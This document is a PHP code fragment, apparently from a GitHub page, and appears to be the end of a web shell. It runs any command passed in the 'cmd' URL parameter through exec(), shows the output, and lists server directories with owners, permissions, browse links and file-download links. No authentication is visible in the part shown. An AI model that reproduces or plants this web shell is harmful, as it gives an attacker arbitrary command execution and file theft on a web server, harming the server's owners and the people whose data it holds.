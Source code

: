 ```php

if (isset($_GET['cmd'])) {
        echo "<br><br><b>Result of command execution: </b><br>";
        exec('cd '.$dir.' && '.$_GET['cmd'], $cmdresult);
        foreach ($cmdresult as $key => $value) {
                echo "$value \n<br>";
        }
}
echo "<br>";
?>

<table class="table table-hover table-bordered">
    <thead>
      <tr>
        <th>Name</th>
        <th>Owner</th>
        <th>Permissions</th>
      </tr>
    </thead>
    <tbody>
<?php
foreach ($dirs as $key => $value) {
        echo "<tr>";
        if (is_dir(realpath($dir.'/'.$value))) {
                echo "<td><a href='". $_SERVER['PHP_SELF'] . "?dir=". realpath($dir.'/'.$value) . "/'>". $value . "</a></td><td>". posix_getpwuid(fileowner($dir.'/'.$value))[name] . "</td><td> " . printPerms($dir) . "</td>\n";
        }
        else {
                echo "<td><a href='". $_SERVER['PHP_SELF'] . "?download=". realpath($dir.'/'.$value) . "'>". $value . "</a></td><td>". posix_getpwuid(fileowner($dir.'/'.$value))[name] ."</td><td> " . printPerms($dir) . "</td>\n";
        }
        echo "</tr>";
}
echo "</tbody>";
echo "</table>";


?>



</div>
</html>
```